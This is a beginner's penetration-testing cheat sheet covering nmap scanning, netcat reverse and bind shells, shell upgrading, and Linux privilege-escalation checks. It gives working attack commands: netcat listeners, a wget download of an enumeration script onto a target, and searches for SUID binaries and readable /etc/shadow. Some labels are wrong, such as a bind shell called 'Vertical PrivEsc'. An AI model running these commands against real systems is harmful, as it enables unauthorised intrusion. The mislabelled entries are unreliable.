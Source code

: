 # About this Cheat Sheet. (For begginers)
I made this Cheat Sheet with no other purpose than help myself in my own learning way. Since I'm not able to remember all these commands or practices, I've resorted to make this file so I can make faster searchs according to my needs. This is a begginer Cheat Sheet, the level corresponds approximately to the eLearnSecurity Junior Penetration Tester Certificate.


## Networking.
#### Nmap - For vulnerability scanning and network discovery.
| Usage                 |
| --------------------- |
| `nmap <options> <IP>` |


| Parameter name                             | Description                                                                       |
| -------------------------------------------| --------------------------------------------------------------------------------- |
| `-p <port-number>`                         | Scans a port or some of them.  (it scans the first 1.000 ports by default.)       |
| `-p- <startPort-number, endPort-number>`   | Scans a range of ports. (By default it scans all ports.)                          |
| `-sV`                                      | Gives information about service's versions.                                       |
| `-Pn`                                      | Skip the ping test, instead scan everytarget host provided.                       |

There are a lot of more parameters, they can be found [here](https://nmap.org/book/man-briefoptions.html "Nmap parameters.").



## Reverse and Blind Shells
| Name               | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| Reverse Shell      |  Target connect to us. (We set up a listener before they connect to us.)  |
| Vertical PrivEsc   |  We connect to the target. (The target is the one who set up a listener.) |


#### How to use Netcat to set up a listener. (Reverse shell)
```bash
nc -lvnp <port-number>
```

| Parameters         | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| `-l`               |  Tells netcat that this will be a listener.                               |
| `-v`               |  Verbose output.                                                          |
| `-n`               |  Not resolve hostnames or use DNS                                         |
| `-p`               |  The port that we will sue                                                |


#### How to use Netcat to connect to a listener. (Blind shell)
```bash
nc <target-ip> <chosen-port>
```


## Upgrade shell.
After we have a shell, we should upgrade it, because netcat isn't too stable. Also we can't use arrow keys, tab key or Ctrl + C.

#### Using Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[Ctrl+Z]
stty raw -echo; fg
````
#### Using Rlwrap
After we install it with `sudo apt install rlwrap` we need to use nc like this.

```bash
rlwrap nc -lvnp <port>
```


## Privilage Escalation

Understanding the two main privilage escalation variants.

| Name         | Description                                                                       |
| -------------------------- | --------------------------------------------------------------------------------- |
| Horizontal PrivEsc         |  Used for hijack another user with the same privilages. Some users even if they're not admin can have SUID files, or they are allowed to use sudo for differents files or programs.   |
| Vertical PrivEsc | You just take an administrator account. |

TODO: Make a picture with a diagram.

#### LinEnum
We can use [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "LinEnum") for enumerate privilage escalation. Below we can find a table for things we should check for privilage escalation in spite of LinEnum will do the task for us.


| Things to check for   |
| -------------         |
| SUID / GUID Files     |
| Readable /etc/shadow  |
| Writable /etc/shadow  |
| Writable /etc/passwd  |
| Sudo Escape sequences |
| Cron Jobs - File permissions  |
| Cron Jobs - PATH env          |
| Passwords & Keys History File |
| Looking for SSH or Config files |
| NFS |
| Kernel exploits |
| Escaping VI editor |

There are several ways of executing the script in the target machine. However, creating a Python web server would be the second eassier one in case we can't recreate the script by coping and paste it.

1. Create a Python web server.
2. Download the script in the target machine.
3. Make the script executable.

```bash
1. python -m SimpleHTTPServer [PORT]
2. wget http://IP:PORT/FILE
3. chmod +x [FILE]
```

#### How to find SUID binaries.

```bash 
find / -perm -u=s -type f 2>/dev/null
           ---- or ----
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[This cheat sheet is still under construction...]
